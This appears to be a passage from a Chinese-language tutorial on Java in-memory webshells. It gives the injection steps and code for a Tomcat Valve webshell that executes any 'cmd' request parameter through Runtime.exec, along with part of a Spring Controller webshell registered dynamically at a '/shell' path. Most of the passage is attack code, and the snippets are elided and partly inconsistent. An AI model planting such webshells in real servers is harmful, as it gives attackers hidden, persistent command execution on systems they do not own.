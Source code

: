 ```java
    standardContext.addServletMappingDecoded("/shell",name);
%>
```

**Value类内存马**

Valve型内存马的注入思路



获取StandardContext对象

通过StandardContext对象获取StandardPipeline

编写恶意Valve

通过StandardPipeline.addValve()动态添加Valve

实例：

```java
......      

        public void invoke(Request request, Response response) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
......    
<%
    Shell_Valve shell_valve = new Shell_Valve();
    pipeline.addValve(shell_valve);
%>
```

## Controller类内存马
动态的注册Controller，思路如下



获取上下文环境

注册恶意Controller 

配置路径映射

实例：

```java
......    

@Controller
public class shell_controller {


    @RequestMapping("/control")
    public void Spring_Controller() throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException {

        //获取当前上下文环境
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        //手动注册Controller
        // 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);
        // 2. 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = Controller_Shell.class.getDeclaredMethod("shell");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
```